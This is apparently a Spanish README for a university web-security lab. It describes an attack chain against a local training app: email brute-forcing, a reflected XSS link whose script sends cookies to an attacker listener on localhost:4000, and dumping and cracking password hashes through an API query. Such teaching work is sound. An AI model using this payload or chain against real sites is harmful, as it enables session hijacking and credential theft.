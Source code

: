 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash

## Cómo levantar el ambiente
1. Tener instalado Docker.
  1. Para Linux:
    `curl -fsSL https://get.docker.com -o get-docker.sh`
    `sh get-docker.sh`
  2. Para Windows: https://hub.docker.com/editions/community/docker-ce-desktop-windows
2. Levantar el entorno corriendo el comando en la carpeta raíz: `docker-compose up`. Esto levanta la aplicación web, la base de datos Mongo y la aplicación del atacante que escucha las cookies
